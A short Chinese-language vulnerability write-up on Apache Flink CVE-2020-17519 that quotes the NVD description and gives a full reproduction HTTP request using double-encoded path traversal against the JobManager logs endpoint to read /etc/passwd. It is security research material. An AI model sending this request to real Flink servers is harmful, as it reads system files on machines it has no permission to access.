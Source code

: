 ![Untitled](Apache%20Flink%20%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%207d976a56676d4f50a5cb19ea74e8f299/Untitled%2013.png)

## CVE-2020-17519

### 漏洞描述

[NVD - CVE-2020-17519](https://nvd.nist.gov/vuln/detail/CVE-2020-17519)

```
A change introduced in Apache Flink 1.11.0 (and released in 1.11.1 and 1.11.2 as well) allows attackers to read any file on the local filesystem of the JobManager through the REST interface of the JobManager process. Access is restricted to files accessible by the JobManager process. All users should upgrade to Flink 1.11.3 or 1.12.0 if their Flink instance(s) are exposed. The issue was fixed in commit b561010b0ee741543c3953306037f00d7a9f0801 from apache/flink:master.
```

### 漏洞复现

```html
GET /jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
Host: 192.168.10.32:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```
